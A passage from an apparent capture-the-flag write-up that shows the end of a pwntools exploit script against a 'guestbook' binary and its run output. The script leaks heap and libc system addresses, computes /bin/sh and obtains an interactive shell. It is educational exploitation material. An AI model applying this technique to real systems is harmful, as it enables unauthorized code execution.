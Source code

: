 ```
heap_adr = u32(leak[0:4])
log.info("The address of system is: " + hex(system_adr))
log.info("The address of heap is: " + hex(heap_adr))

# Calculate the address of /bin/sh
binsh = calc_binsh(system_adr)

# Launch the attack
attack(system_adr, binsh, heap_adr)

# Drop to an interactive shell
target.interactive()
```

When we run it:

```
➜  /vagrant git:(master) ✗ python exploit.py.2
[+] Starting local process './guestbook': pid 2717
[*] running in new terminal: /usr/bin/gdb -q  "./guestbook" 2717 -x "/tmp/pwnDgnK2m.gdb"
[+] Waiting for debugger: Done
Please setup your guest book:
Name for guest: #0
>>>
Name for guest: #1
>>>
Name for guest: #2
>>>
Name for guest: #3
>>>
---------------------------
1: View name
2: Change name
3. Quit
>>
Which entry do you want to view?
>>>
l\xffX\xb0uV
---------------------------
1: View name
2: Change name
3. Quit
>>
[*] The address of system is: 0xf7546da0
[*] The address of heap is: 0x5675a008
[*] The address of binsh is: 0xf7667a0b
Which entry do you want to change?
>>>
Enter the name of the new guest.
>>>
[*] Switching to interactive mode
$
---------------------------
1: View name
2: Change name
3. Quit
>>$ 3
$ w
 04:35:38 up  1:04,  1 user,  load average: 0.08, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vagrant  pts/0    10.0.2.2         Mon02    2.00s  0.24s  0.00s tmux
$
```

Just like that, we popped a shell!